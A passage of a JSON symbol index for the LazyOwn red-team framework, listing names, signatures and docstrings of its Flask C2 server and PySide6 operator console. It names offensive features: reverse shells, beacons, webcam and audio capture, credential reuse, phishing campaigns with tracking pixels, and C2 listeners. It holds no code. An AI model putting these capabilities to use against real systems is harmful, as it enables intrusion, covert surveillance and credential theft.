admin_users()"}, {"kind": "function", "line": 5959, "name": "admin_set_role", "signature": "def admin_set_role(user_id)"}, {"kind": "function", "line": 5981, "name": "admin_reset_mfa", "signature": "def admin_reset_mfa(user_id)"}, {"kind": "function", "line": 5993, "name": "admin_delete_user", "signature": "def admin_delete_user(user_id)"}, {"kind": "function", "line": 6011, "name": "admin_tenants", "signature": "def admin_tenants()"}, {"kind": "function", "line": 6032, "name": "admin_create_tenant", "signature": "def admin_create_tenant()"}, {"kind": "function", "line": 6051, "name": "admin_switch_tenant", "signature": "def admin_switch_tenant(tenant_id)"}, {"kind": "function", "line": 6065, "name": "profile", "signature": "def profile()"}, {"kind": "function", "line": 6089, "name": "logout", "signature": "def logout()"}, {"doc": "Force rotation of the initial one-time admin password.\n\nBoth the RBAC store and the legacy JSON store are updated. The\n``must_change_password`` flag is cleared once a strong password\nis set.", "kind": "function", "line": 6104, "name": "change_password", "signature": "def change_password()"}, {"kind": "function", "line": 6170, "name": "aumentar_elo_route", "signature": "def aumentar_elo_route(user_id)"}, {"kind": "function", "line": 6186, "name": "banners", "signature": "def banners()"}, {"kind": "function", "line": 6222, "name": "mitre", "signature": "def mitre()"}, {"kind": "function", "line": 6267, "name": "get_connected_clients", "signature": "def get_connected_clients()"}, {"kind": "function", "line": 6278, "name": "lazybot", "signature": "def lazybot()"}, {"kind": "function", "line": 6295, "name": "compliance_dashboard", "signature": "def compliance_dashboard()"}, {"kind": "function", "line": 6317, "name": "compliance_report", "signature": "def compliance_report()"}, {"kind": "function", "line": 6346, "name": "compliance_add_evidence", "signature": "def compliance_add_evidence()"}, {"kind": "function", "line": 6382, "name": "compliance_verify_evidence", "signature": "def compliance_verify_evidence()"}, {"kind": "function", "line": 6396, "name": "compliance_export", "signature": "def compliance_export(format)"}, {"kind": "function", "line": 6426, "name": "lazyreport", "signature": "def lazyreport()"}, {"kind": "function", "line": 6445, "name": "teamserver", "signature": "def teamserver()"}, {"kind": "function", "line": 6474, "name": "report", "signature": "def report()"}, {"kind": "function", "line": 6481, "name": "lazyreport_view", "signature": "def lazyreport_view()"}, {"kind": "function", "line": 6487, "name": "killchain_view", "signature": "def killchain_view()"}, {"doc": "Return the unified kill-chain snapshot consumed by every surface.\n\nDelegates entirely to ``modules.killchain.KillChain.snapshot`` so the\nweb dashboard, /killchain page, GUI2 and the CLI all render identical\nstate derived from the single source of truth (world_model.json).", "kind": "function", "line": 6517, "name": "api_killchain", "signature": "def api_killchain()"}, {"doc": "Return the full ordered command/result history for one beacon.\n\nFalls back to the in-memory latest result when the on-disk JSONL\nhistory is missing so GUI2 always has something to render.", "kind": "function", "line": 6548, "name": "api_beacon_results", "signature": "def api_beacon_results(client_id)"}, {"kind": "function", "line": 6563, "name": "_render_enhanced_report", "signature": "def _render_enhanced_report()"}, {"kind": "function", "line": 6583, "name": "_render_legacy_report", "signature": "def _render_legacy_report()"}, {"kind": "function", "line": 6648, "name": "connect", "signature": "def connect()"}, {"kind": "function", "line": 6657, "name": "listener", "signature": "def listener()"}, {"kind": "function", "line": 6666, "name": "listener_connect", "signature": "def listener_connect()"}, {"kind": "function", "line": 6677, "name": "listener_disconnect", "signature": "def listener_disconnect()"}, {"kind": "function", "line": 6687, "name": "pty_input", "signature": "def pty_input(data)"}, {"kind": "function", "line": 6701, "name": "resize", "signature": "def resize(data)"}, {"kind": "function", "line": 6714, "name": "pty_connect", "signature": "def pty_connect()"}, {"kind": "function", "line": 6745, "name": "handle_input", "signature": "def handle_input(data)"}, {"kind": "function", "line": 6769, "name": "listener_command", "signature": "def listener_command(msg)"}, {"kind": "function", "line": 6783, "name": "terminal", "signature": "def terminal()"}, {"kind": "function", "line": 6792, "name": "terminal_connect", "signature": "def terminal_connect()"}, {"kind": "function", "line": 6802, "name": "terminal_disconnect", "signature": "def terminal_disconnect()"}, {"kind": "function", "line": 6812, "name": "terminal_input", "signature": "def terminal_input(data)"}, {"kind": "function", "line": 6825, "name": "terminal_command", "signature": "def terminal_command(data)"}, {"kind": "function", "line": 6840, "name": "terminal_resize", "signature": "def terminal_resize(data)"}, {"kind": "function", "line": 6849, "name": "start_reverse_shell", "signature": "def start_reverse_shell()"}, {"doc": "Start a TCP bridge to a specified remote host and port.", "kind": "function", "line": 6896, "name": "start_bridge", "signature": "def start_bridge()"}, {"kind": "function", "line": 6913, "name": "page_not_found", "signature": "def page_not_found(e)"}, {"kind": "function", "line": 6921, "name": "internal_server_error", "signature": "def internal_server_error(e)"}, {"doc": "Lee el archivo payload.json, lo manipula y lo expone como /config.json.", "kind": "function", "line": 6930, "name": "get_config", "signature": "def get_config()"}, {"kind": "function", "line": 6949, "name": "capture_image", "signature": "def capture_image()"}, {"kind": "function", "line": 6975, "name": "capture_audio", "signature": "def capture_audio()"}, {"kind": "function", "line": 6993, "name": "surface", "signature": "def surface()"}, {"doc": "Render the live attack-surface graph page.\n\nReturns:\n    The decoy response for unauthorized origins, otherwise the\n    ``surface_live.html`` template that polls ``/api/surface_live``.", "kind": "function", "line": 6999, "name": "surface_live", "signature": "def surface_live()"}, {"doc": "Return the live attack-surface graph derived from the world model.\n\nReads ``sessions/world_model.json`` on every request so the topology\nreflects current campaign state, then projects it to a vis-network payload\nvia :func:`modules.live_surface.build_live_graph`.\n\nReturns:\n    A JSON object with ``nodes``, ``edges`` and ``stats`` keys. A missing\n    or unreadable world model yields an empty but well-formed graph.", "kind": "function", "line": 7014, "name": "api_surface_live", "signature": "def api_surface_live()"}, {"doc": "Render the fused sessions intel graph page (ReadMenator engine).\n\nData loads via ``/api/intel_graph`` inside LazyOwn chrome. Defaults to\nthe 2D map with fit-to-view; 3D orbit, clusters, layers, tree and the\ncircular/spherical bundles stay one click away.\n\nReturns:\n    The decoy response for unauthorized origins, otherwise the\n    ``intel.html`` explorer embedded in the LazyOwn layout.", "kind": "function", "line": 7039, "name": "intel_view", "signature": "def intel_view()"}, {"doc": "Render the circular/spherical bundle view of the intel graph.\n\nReturns:\n    The decoy response for unauthorized origins, otherwise the\n    ``intel_bundle.html`` explorer embedded in the LazyOwn layout.", "kind": "function", "line": 7058, "name": "intel_bundle_view", "signature": "def intel_bundle_view()"}, {"doc": "Render the C2-centred attack-surface graph (ReadMenator engine).\n\nShows the LazyOwn C2 root, implants, discovered machines, open ports,\nservices, findings and objectives fused from every session artefact.\nThe current ``/graph`` and ``/surface`` views stay untouched.\n\nReturns:\n    The decoy response for unauthorized origins, otherwise the\n    ``attack3d.html`` explorer embedded in the LazyOwn layout.", "kind": "function", "line": 7073, "name": "attack3d_view", "signature": "def attack3d_view()"}, {"doc": "Render the circular/spherical bundle view of the attack surface.\n\nReturns:\n    The decoy response for unauthorized origins, otherwise the\n    ``attack_bundle.html`` explorer embedded in the LazyOwn layout.", "kind": "function", "line": 7092, "name": "attack_bundle_view", "signature": "def attack_bundle_view()"}, {"doc": "Return the fused C2-centred intel graph with precomputed layout.\n\nQuery param ``layout`` selects ``force`` (default, physics runs\nclient-side, no preset positions so every graph fits on screen),\n``cluster``, ``radial``, ``dag`` (same, client-side), ``circular`` or\n``spherical`` (server-side positions). Legacy ``force2d``/``force3d``\nstill map to ``force``. Every request also refreshes\n``sessions/intel_summary.json`` so the autonomous loop planner scores\nprobes from current campaign state.\n\nReturns:\n    A JSON object with ``nodes``, ``edges``, ``stats``, ``settings``\n    and ``analytics`` keys.", "kind": "function", "line": 7107, "name": "api_intel_graph", "signature": "def api_intel_graph()"}, {"doc": "Render the exploration timeline board for one loop task.\n\nReturns:\n    The ``broadcast.html`` timeline embedded in the LazyOwn layout.", "kind": "function", "line": 7163, "name": "broadcast_view", "signature": "def broadcast_view()"}, {"doc": "SSE live tail of one loop task's activity stream.\n\nQuery params ``task`` (required), ``cursor`` (resume line index),\n``interval`` (poll seconds, 0.2..5) and ``seconds`` (stream\nlifetime, max 1800). Every event carries ``id: <cursor>`` so an\noperator reconnects without gaps after a page reload.\n\nReturns:\n    ``text/event-stream`` response with keep-alive comments.", "kind": "function", "line": 7177, "name": "api_loop_broadcast_stream", "signature": "def api_loop_broadcast_stream()"}, {"doc": "Return the paginated exploration timeline for one loop task.\n\nQuery params ``task`` (required), ``kind`` (repeatable),\n``q``, ``order`` (asc/desc), ``page``, ``per_page``. Rows carry\nupstream/downstream neighbours and anchored assets inline so the\nboard expands without extra requests.\n\nReturns:\n    A JSON object with ``items``, ``total``, ``page``,\n    ``per_page``, ``has_more`` and ``days`` keys.", "kind": "function", "line": 7235, "name": "api_loop_broadcast", "signature": "def api_loop_broadcast()"}, {"doc": "Return guard history with pending approvals kept independent.\n\nQuery params ``task``, ``action``, ``source``, ``q``, ``limit``,\n``lookup`` (a ``tool_use_id`` jumping to the exact execution).\nPending intercept requests always ride along unpaginated so paging\nthrough history never hides work waiting for approval.\n\nReturns:\n    A JSON object with ``pending``, ``history`` and optional\n    ``lookup`` keys.", "kind": "function", "line": 7278, "name": "api_guard_audit", "signature": "def api_guard_audit()"}, {"doc": "Return one loop task as ForceGraph-ready nodes/links plus context.\n\nQuery param ``task`` (required). Nodes carry exploration kind/state\nand asset kind/value; links keep exploration kinds plus ``anchors``\nedges into assets. ``context`` holds hubs, islands and suggested\nnext probes computed from the same topology the planner ranks on.\n\nReturns:\n    A JSON object with ``nodes``, ``links`` and ``context`` keys.", "kind": "function", "line": 7324, "name": "api_loop_graph", "signature": "def api_loop_graph()"}, {"doc": "Search @ mention candidates with scroll pagination.\n\nQuery params ``kind``, ``q`` and ``cursor`` (opaque page position\nfrom the previous page). Returns ``items`` plus ``next_cursor``.\n\nReturns:\n    A JSON object with ``items`` and ``next_cursor`` keys.", "kind": "function", "line": 7355, "name": "api_lazy_mentions", "signature": "def api_lazy_mentions()"}, {"doc": "Return the circular/spherical bundle payload of the intel graph.\n\nReturns:\n    A JSON object with ``bundle`` (nodes, groups, edges) and\n    ``settings`` keys consumed by ``intel_bundle.html``.", "kind": "function", "line": 7391, "name": "api_intel_bundle", "signature": "def api_intel_bundle()"}, {"doc": "Return the fused C2-centred attack-surface graph.\n\nMerges live surface scans (C2, implants, hosts, ports, services) with\ncampaign intel (objectives, findings, tasks, log mentions). Query param\n``layout`` accepts ``force`` (default, client-side physics),\n``cluster``, ``radial``, ``dag``, ``circular`` and ``spherical``.\nEvery request refreshes ``sessions/intel_summary.json`` so the\nautonomous loop scores probes from current campaign state.\n\nReturns:\n    A JSON object with ``nodes``, ``edges``, ``stats``, ``settings``\n    and ``analytics`` keys.", "kind": "function", "line": 7424, "name": "api_attack_graph", "signature": "def api_attack_graph()"}, {"doc": "Return the circular/spherical bundle payload of the attack surface.\n\nReturns:\n    A JSON object with ``bundle`` (nodes, groups, edges) and\n    ``settings`` keys consumed by ``attack_bundle.html``.", "kind": "function", "line": 7476, "name": "api_attack_bundle", "signature": "def api_attack_bundle()"}, {"kind": "function", "line": 7506, "name": "get_data", "signature": "def get_data()"}, {"doc": "Handles the file upload, processes the BloodHound ZIP, and prepares data for visualization.", "kind": "function", "line": 7515, "name": "upload_zip_file", "signature": "def upload_zip_file()"}, {"kind": "function", "line": 7573, "name": "list_campaigns", "signature": "def list_campaigns()"}, {"kind": "function", "line": 7586, "name": "create_campaign", "signature": "def create_campaign()"}, {"kind": "function", "line": 7664, "name": "lazyphishingai", "signature": "def lazyphishingai()"}, {"doc": "Píxel de seguimiento para registrar aperturas.", "kind": "function", "line": 7680, "name": "track_pixel", "signature": "def track_pixel(campaign_id, email)"}, {"kind": "function", "line": 7702, "name": "campaign_report", "signature": "def campaign_report(campaign_id)"}, {"kind": "function", "line": 7784, "name": "orchestrate_campaign", "signature": "def orchestrate_campaign(campaign_id)"}, {"kind": "function", "line": 7831, "name": "create_multivector_campaign", "signature": "def create_multivector_campaign()"}, {"kind": "function", "line": 7983, "name": "serve_landing_page", "signature": "def serve_landing_page(campaign_id, short_url)"}, {"doc": "Basic health and readiness endpoint.", "kind": "function", "line": 8008, "name": "health_check", "signature": "def health_check()"}, {"doc": "Prometheus-compatible metrics endpoint.", "kind": "function", "line": 8047, "name": "metrics_exposition", "signature": "def metrics_exposition()"}, {"doc": "Aggregated JSON dashboard: beacons, campaign, events, facts summary.", "kind": "function", "line": 8054, "name": "api_dashboard", "signature": "def api_dashboard()"}, {"doc": "List all configured C2 listeners and their runtime status.", "kind": "function", "line": 8124, "name": "api_listeners", "signature": "def api_listeners()"}, {"doc": "Create a new listener.", "kind": "function", "line": 8131, "name": "api_listeners_create", "signature": "def api_listeners_create()"}, {"doc": "Start an existing listener.", "kind": "function", "line": 8147, "name": "api_listeners_start", "signature": "def api_listeners_start(listener_id)"}, {"doc": "Stop a running listener.", "kind": "function", "line": 8155, "name": "api_listeners_stop", "signature": "def api_listeners_stop(listener_id)"}, {"doc": "Remove a listener configuration.", "kind": "function", "line": 8163, "name": "api_listeners_delete", "signature": "def api_listeners_delete(listener_id)"}, {"kind": "method", "line": 426, "name": "format", "signature": "def format(self, record)"}, {"kind": "method", "line": 712, "name": "on_any_event", "signature": "def on_any_event(event)"}, {"kind": "function", "line": 1364, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 1377, "name": "decorated", "signature": "def decorated()"}, {"kind": "function", "line": 1396, "name": "wrapper", "signature": "def wrapper()"}, {"kind": "method", "line": 1711, "name": "resolve", "signature": "def resolve(self, request, handler)"}, {"doc": "Construye de forma segura el path del archivo y verifica que está en el directorio permitido.\nRetorna el path absoluto seguro o None si no es válido.", "kind": "function", "line": 2270, "name": "get_safe_file_path", "signature": "def get_safe_file_path(user_path)"}, {"doc": "Return the shared shell, creating it on first use.", "kind": "method", "line": 2611, "name": "_target", "signature": "def _target(self)"}, {"doc": "Forward attribute reads to the shared shell.", "kind": "method", "line": 2615, "name": "__getattr__", "signature": "def __getattr__(self, name)"}, {"doc": "Forward attribute writes to the shared shell.", "kind": "method", "line": 2619, "name": "__setattr__", "signature": "def __setattr__(self, name, value)"}, {"kind": "method", "line": 2947, "name": "__init__", "signature": "def __init__(self, user_data)"}, {"doc": "Sanitize input to prevent XSS attacks.", "kind": "function", "line": 4120, "name": "sanitize_input", "signature": "def sanitize_input(input_str)"}, {"doc": "Validate route path format.", "kind": "function", "line": 4130, "name": "is_valid_route_path", "signature": "def is_valid_route_path(route_path)"}, {"doc": "Validate data parameter.", "kind": "function", "line": 4137, "name": "is_valid_data", "signature": "def is_valid_data(data)"}, {"doc": "Validate template name.", "kind": "function", "line": 4147, "name": "is_valid_template_name", "signature": "def is_valid_template_name(template_name)"}, {"kind": "function", "line": 7210, "name": "_events", "signature": "def _events()"}, {"kind": "function", "line": 3479, "name": "_engage_publish", "signature": "def _engage_publish(_cid, _ip, _host, _user, _platform)"}, {"doc": "Extract the first valid IPv4 address from a comma-separated string.", "kind": "function", "line": 3535, "name": "_extract_first_ip", "signature": "def _extract_first_ip(raw)"}, {"doc": "Check if a string looks like a captured credential.", "kind": "function", "line": 3548, "name": "_is_valid_credential", "signature": "def _is_valid_credential(value)"}, {"kind": "function", "line": 3577, "name": "_normalise_platform", "signature": "def _normalise_platform(raw_platform)"}, {"kind": "function", "line": 3728, "name": "_ingest_beacon", "signature": "def _ingest_beacon(_ips, _host, _cmd, _out, _user)"}, {"kind": "function", "line": 3588, "name": "_queue_beacon_cmd", "signature": "def _queue_beacon_cmd(action, ctx)"}, {"kind": "function", "line": 3695, "name": "_bg_cred_reuse", "signature": "def _bg_cred_reuse(_ip)"}]}, {"doc": "LazyOwn Operator Console.  A PySide6-based desktop client for the LazyOwn red-team framework. Supports two operating modes:  * Local mode: spawns the cmd2 console (``lazyown.py``) over a PTY. * Teamserver mode: communicates with the Flask backend (``lazyc2.py``) via HTTP and WebSocket, allowing multi-operator workflows.  The package is organised following SOLID principles. Cross-cutting concerns live in dedicated subpackages:  * :mod:`lazygui.config`   - tunable constants, paths, user-settings. * :mod:`lazygui.theme`    - theme tokens, QSS builder, palette registry. * :mod:`lazygui.services` - backend abstraction and domain models. * :mod:`lazygui.widgets`  - reusable Qt widgets. * :mod:`lazygui.panels`   - dockable panels composed in the main window. * :mod:`lazygui.windows`  - top-level windows and dialogs.", "id": "lazygui/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "c3e4e5658f5b7600", "symbol_count": 0, "symbols": []}, {"doc": "Entry point for ``python -m lazygui``.  Delegates to :class:`lazygui.app.Application` so command-line invocation and programmatic embedding share the same bootstrap path.", "id": "lazygui/__main__.py", "kind": "module", "label": "__main__.py", "language": "py", "sha256": "55979d187eb90204", "symbol_count": 1, "symbols": [{"doc": "Bootstrap the GUI and run the Qt event loop.\n\nReturns the exit status produced by Qt so it can propagate to the shell.", "kind": "function", "line": 14, "name": "main", "signature": "def main()"}]}, {"doc": "Application bootstrap.  Wires the configuration, theme, services and main window together. The :class:`Application` class is the only place that knows how to assemble every subsystem; everything else accepts dependencies through its constructor and stays testable in isolation.", "id": "lazygui/app.py", "kind": "module", "label": "app.py", "language": "py", "sha256": "e21121c8393b5f32", "symbol_count": 14, "symbols": [{"doc": "Owns the QApplication instance and the lifetime of every subsystem.", "kind": "class", "line": 33, "name": "Application", "signature": "class Application"}, {"doc": "Build constants/settings/theme/backend/main-window.", "kind": "method", "line": 36, "name": "__init__", "signature": "def __init__(self, argv)"}, {"doc": "Show the main window, start the backend, and run the event loop.", "kind": "method", "line": 65, "name": "run", "signature": "def run(self)"}, {"doc": "Attempt to load auto-generated credentials from the project root.\n\n``lazyc2.py`` writes ``.c2_credentials.txt`` at startup with strong\nauto-generated credentials. When the file exists and the operator\nhas not already manually configured teamserver credentials, those\nvalues are used for the initial connection.", "kind": "method", "line": 73, "name": "_discover_credentials", "signature": "def _discover_credentials(self)"}, {"doc": "Persist auto-discovered credentials into settings.", "kind": "method", "line": 89, "name": "_sync_credentials_to_settings", "signature": "def _sync_credentials_to_settings(self, credentials)"}, {"doc": "Open the connection dialog and swap backends if accepted.", "kind": "method", "line": 100, "name": "show_connect_dialog", "signature": "def show_connect_dialog(self)"}, {"doc": "Instantiate the backend remembered in settings or auto-discovered.\n\nWhen the last backend is ``teamserver``, credentials are resolved in\nthis order:\n1. Auto-generated ``.c2_credentials.txt`` (if present and fresh)\n2. Persisted settings (operator name + password)\n3. Fall back to local backend (never connect with empty credentials)", "kind": "method", "line": 119, "name": "_build_initial_backend", "signature": "def _build_initial_backend(self)"}, {"doc": "Return ``(username, password)`` from the best available source.\n\nPriority:\n1. Auto-discovered ``.c2_credentials.txt`` (fresh, not yet consumed)\n2. Persisted settings (previously used credentials)\n3. Empty tuple (triggers local fallback)", "kind": "method", "line": 150, "name": "_resolve_teamserver_credentials", "signature": "def _resolve_teamserver_credentials(self)"}, {"doc": "Instantiate a backend based on the dialog return value.", "kind": "method", "line": 167, "name": "_build_backend_from_request", "signature": "def _build_backend_from_request(self, request)"}, {"doc": "Tear down the previous backend and rebuild the panels around the new one.", "kind": "method", "line": 175, "name": "_swap_backend", "signature": "def _swap_backend(self, new_backend)"}, {"doc": "Connect signal handlers and call ``start()`` on the backend.", "kind": "method", "line": 194, "name": "_start_backend", "signature": "def _start_backend(self, backend)"}, {"doc": "Set high-DPI policy before instantiating QApplication.", "kind": "method", "line": 213, "name": "_configure_qt_attributes", "signature": "def _configure_qt_attributes(self)"}, {"doc": "Populate organization/application metadata used by ``QSettings``.", "kind": "method", "line": 218, "name": "_configure_qt_application_metadata", "signature": "def _configure_qt_application_metadata(self)"}, {"doc": "Install a basic log configuration directing INFO+ to stderr.", "kind": "method", "line": 224, "name": "_configure_logging", "signature": "def _configure_logging(self)"}]}, {"doc": "Configuration layer.  Centralises every tunable parameter so the rest of the package never embeds a magic number or a hard-coded path. Three concerns are exposed:  * :class:`lazygui.config.constants.AppConstants` - immutable defaults. * :class:`lazygui.config.paths.AppPaths` - filesystem layout resolver. * :class:`lazygui.config.settings.AppSettings` - mutable, persisted overrides.", "id": "lazygui/config/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "e7b378d6200eb109", "symbol_count": 0, "symbols": []}, {"doc": "C2 auto-generated credentials discovery.  ``lazyc2.py`` writes ``.c2_credentials.txt`` at startup containing the auto-generated strong credentials. This module provides the parser that reads that file and returns a ``(username, password)`` tuple so the GUI can auto-connect without manual credential entry.", "id": "lazygui/config/c2_credentials.py", "kind": "module", "label": "c2_credentials.py", "language": "py", "sha256": "d708bbf0601f9947", "symbol_count": 4, "symbols": [{"doc": "Parsed credentials from the auto-generated file.", "kind": "class", "line": 24, "name": "C2Credentials", "signature": "class C2Credentials"}, {"doc": "Parse ``.c2_credentials.txt`` and return username + password.\n\nArgs:\n    file_path: Absolute path to the credentials file.\n\nReturns:\n    A populated :class:`C2Credentials` if the file exists and contains\n    valid entries, or :meth:`C2Credentials.empty` otherwise.", "kind": "function", "line": 38, "name": "load_c2_credentials_from_file", "signature": "def load_c2_credentials_from_file(file_path)"}, {"doc": "Resolve and parse the credentials file relative to ``project_root``.\n\nArgs:\n    project_root: The LazyOwn repository root directory.\n\nReturns:\n    A :class:`C2Credentials` instance, found or empty.", "kind": "function", "line": 71, "name": "load_c2_credentials", "signature": "def load_c2_credentials(project_root)"}, {"doc": "Return a sentinel representing no credentials available.", "kind": "method", "line": 33, "name": "empty", "signature": "def empty(cls)"}]}, {"doc": "Immutable application constants.  Every numeric or string literal that the GUI relies on lives here. If a value ever needs tweaking it changes in this file only; nothing downstream should ever embed a literal of its own.  The class is a frozen dataclass so attempts to mutate it at runtime fail loudly. User-overridable values belong to :class:`AppSettings` instead.", "id": "lazygui/config/constants.py", "kind": "module", "label": "constants.py", "language": "py", "sha256": "e8f30e05e512d338", "symbol_count": 14, "symbols": [{"doc": "Geometry defaults for top-level windows.", "kind": "class", "line": 18, "name": "WindowConstants", "signature": "class WindowConstants"}, {"doc": "Timer intervals expressed in milliseconds.", "kind": "class", "line": 34, "name": "TimingConstants", "signature": "class TimingConstants"}, {"doc": "Defaults for HTTP and WebSocket clients.", "kind": "class", "line": 48, "name": "NetworkConstants", "signature": "class NetworkConstants"}, {"doc": "Tunables for the local PTY backend.", "kind": "class", "line": 86, "name": "PtyConstants", "signature": "class PtyConstants"}, {"doc": "Font family fallbacks (theme tokens decide colours and sizes).", "kind": "class", "line": 99, "name": "FontConstants", "signature": "class FontConstants"}, {"doc": "Application-wide keyboard shortcuts in Qt sequence notation.", "kind": "class", "line": 124, "name": "KeybindingConstants", "signature": "class KeybindingConstants"}, {"doc": "Stable string identifiers for object names and settings keys.", "kind": "class", "line": 142, "name": "IdentifierConstants", "signature": "class IdentifierConstants"}, {"doc": "Constants relevant to theme registration.", "kind": "class", "line": 161, "name": "ThemeConstants", "signature": "class ThemeConstants"}, {"doc": "Identifiers for the available backend implementations.", "kind": "class", "line": 176, "name": "BackendConstants", "signature": "class BackendConstants"}, {"doc": "Identifiers and labels for dockable panels.", "kind": "class", "line": 185, "name": "PanelConstants", "signature": "class PanelConstants"}, {"doc": "Bounds for the event-log ring buffer.", "kind": "class", "line": 205, "name": "EventLogConstants", "signature": "class EventLogConstants"}, {"doc": "Tunables for the fuzzy command palette.", "kind": "class", "line": 214, "name": "CommandPaletteConstants", "signature": "class CommandPaletteConstants"}, {"doc": "Aggregate view exposing every constant group as attributes.", "kind": "class", "line": 223, "name": "AppConstants", "signature": "class AppConstants"}, {"doc": "Map panel identifier to human-readable label.", "kind": "method", "line": 239, "name": "panel_labels", "signature": "def panel_labels(self)"}]}, {"doc": "Filesystem layout resolver.  The application stores user-specific data under the platform-appropriate config directory and reads project-relative resources from the repository root. All path resolution flows through :class:`AppPaths` so tests can swap locations and so nothing downstream embeds an absolute path.", "id": "lazygui/config/paths.py", "kind": "module", "label": "paths.py", "language": "py", "sha256": "74f680e674c0fa6c", "symbol_count": 10, "symbols": [{"doc": "Resolved filesystem locations for runtime artefacts.\n\nThe constructor derives every path from the supplied :class:`AppConstants`\nand the current environment, so a test can override ``home_dir`` or the\n``project_root`` without monkey-patching the rest of the application.", "kind": "class", "line": 19, "name": "AppPaths", "signature": "class AppPaths"}, {"doc": "Walk upwards from this file looking for the LazyOwn project markers.\n\nThe detection considers a directory the project root when it contains\nboth the ``run`` launcher and ``lazyown.py``. Falls back to the directory\ntwo levels above this module if no marker is found, matching the\nrepository layout (``<root>/lazygui/config/paths.py``).", "kind": "function", "line": 79, "name": "_detect_project_root", "signature": "def _detect_project_root()"}, {"doc": "User config directory respecting ``XDG_CONFIG_HOME`` when set.", "kind": "method", "line": 32, "name": "config_dir", "signature": "def config_dir(self)"}, {"doc": "Absolute path of the persisted settings JSON file.", "kind": "method", "line": 39, "name": "settings_file", "signature": "def settings_file(self)"}, {"doc": "Absolute path of the persisted Qt layout binary blob.", "kind": "method", "line": 44, "name": "layout_file", "signature": "def layout_file(self)"}, {"doc": "Absolute path to the ``run`` shell launcher in the repository.", "kind": "method", "line": 49, "name": "project_run_script", "signature": "def project_run_script(self)"}, {"doc": "Absolute path to the Flask backend ``lazyc2.py``.", "kind": "method", "line": 54, "name": "lazyc2_script", "signature": "def lazyc2_script(self)"}, {"doc": "Absolute path to the C2 auto-generated credentials file.\n\n``lazyc2.py`` writes ``.c2_credentials.txt`` at startup when it\ngenerates strong credentials. The operator console reads this file\nto auto-discover the username and password.", "kind": "method", "line": 59, "name": "c2_credentials_path", "signature": "def c2_credentials_path(self)"}, {"doc": "Absolute path to the sessions directory.", "kind": "method", "line": 69, "name": "sessions_dir", "signature": "def sessions_dir(self)"}, {"doc": "Create the config directory if missing and return it.", "kind": "method", "line": 73, "name": "ensure_config_dir", "signature": "def ensure_config_dir(self)"}]}, {"doc": "Persisted user settings.  Settings live in a JSON file under :attr:`AppPaths.config_dir`. The class exposes typed accessors on top of the JSON document so the rest of the code never deals with raw dictionaries or string keys directly.  Anything stored here is user-tunable. Defaults always come from :class:`AppConstants`; this class is the only legitimate location for runtime mutation of those defaults.", "id": "lazygui/config/settings.py", "kind": "module", "label": "settings.py", "language": "py", "sha256": "e82cb92d82326206", "symbol_count": 18, "symbols": [{"doc": "Read/write wrapper around the persisted settings JSON document.", "kind": "class", "line": 27, "name": "AppSettings", "signature": "class AppSettings"}, {"doc": "Load settings from disk, returning empty defaults if absent.", "kind": "method", "line": 35, "name": "load", "signature": "def load(cls, constants, paths)"}, {"doc": "Persist the current document to disk atomically.", "kind": "method", "line": 47, "name": "save", "signature": "def save(self)"}, {"doc": "Generic accessor for a slash-separated settings key.", "kind": "method", "line": 55, "name": "get", "signature": "def get(self, key, default)"}, {"doc": "Assign ``value`` to ``key`` without persisting; call :meth:`save`.", "kind": "method", "line": 59, "name": "set", "signature": "def set(self, key, value)"}, {"doc": "Currently selected theme identifier.", "kind": "method", "line": 64, "name": "theme_id", "signature": "def theme_id(self)"}, {"kind": "method", "line": 69, "name": "theme_id", "signature": "def theme_id(self, value)"}, {"doc": "Backend identifier last used in the connect dialog.", "kind": "method", "line": 73, "name": "last_backend_id", "signature": "def last_backend_id(self)"}, {"kind": "method", "line": 78, "name": "last_backend_id", "signature": "def last_backend_id(self, value)"}, {"doc": "Last URL typed in the teamserver connection form.", "kind": "method", "line": 84, "name": "last_teamserver_url", "signature": "def last_teamserver_url(self)"}, {"kind": "method", "line": 94, "name": "last_teamserver_url", "signature": "def last_teamserver_url(self, value)"}, {"doc": "Operator handle the user typed last.", "kind": "method", "line": 98, "name": "last_operator_name", "signature": "def last_operator_name(self)"}, {"kind": "method", "line": 107, "name": "last_operator_name", "signature": "def last_operator_name(self, value)"}, {"doc": "Last teamserver password (stored in settings, derived from credentials file).", "kind": "method", "line": 111, "name": "last_teamserver_password", "signature": "def last_teamserver_password(self)"}, {"kind": "method", "line": 116, "name": "last_teamserver_password", "signature": "def last_teamserver_password(self, value)"}, {"doc": "Whether the last credentials were loaded from the C2 auto-generated file.", "kind": "method", "line": 120, "name": "c2_credentials_loaded", "signature": "def c2_credentials_loaded(self)"}, {"kind": "method", "line": 125, "name": "c2_credentials_loaded", "signature": "def c2_credentials_loaded(self, value)"}, {"doc": "Return a defensive read-only copy of the underlying document.", "kind": "method", "line": 128, "name": "snapshot", "signature": "def snapshot(self)"}]}, {"doc": "Dockable panels assembled from the reusable widgets.  Each panel is a thin :class:`QDockWidget` that owns a single concern (sessions, listeners, console, event log) and connects itself to the backend signals it needs. The :class:`PanelRegistry` exposes them by identifier so the main window can wire menu actions and keyboard shortcuts polymorphically.", "id": "lazygui/panels/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "09ec360aa8198ec6", "symbol_count": 0, "symbols": []}, {"doc": "Common :class:`QDockWidget` base for every panel.  Centralises ``objectName`` assignment (required for ``QMainWindow.saveState`` to round-trip) and exposes a hook so subclasses can perform backend wiring in a uniform way.", "id": "lazygui/panels/base.py", "kind": "module", "label": "base.py", "language": "py", "sha256": "0705d68c06488623", "symbol_count": 4, "symbols": [{"doc": "Base class enforcing object-name discipline and backend wiring.", "kind": "class", "line": 17, "name": "PanelBase", "signature": "class PanelBase(QDockWidget)"}, {"doc": "Initialise the dock widget with stable identifier and title.", "kind": "method", "line": 20, "name": "__init__", "signature": "def __init__(self, constants, backend, identifier, title, parent)"}, {"doc": "Stable identifier matching :class:`PanelConstants`.", "kind": "method", "line": 43, "name": "identifier", "signature": "def identifier(self)"}, {"doc": "The currently connected backend instance.", "kind": "method", "line": 48, "name": "backend", "signature": "def backend(self)"}]}, {"doc": "Campaign management panel for the operator console.  Displays active campaigns, objectives and playbook execution status from the teamserver. Supports filtering and detail view.", "id": "lazygui/panels/campaign_panel.py", "kind": "module", "label": "campaign_panel.py", "language": "py", "sha256": "1c4f93c62fa5e32b", "symbol_count": 9, "symbols": [{"doc": "Dock panel displaying active campaign status.", "kind": "class", "line": 28, "name": "CampaignPanel", "signature": "class 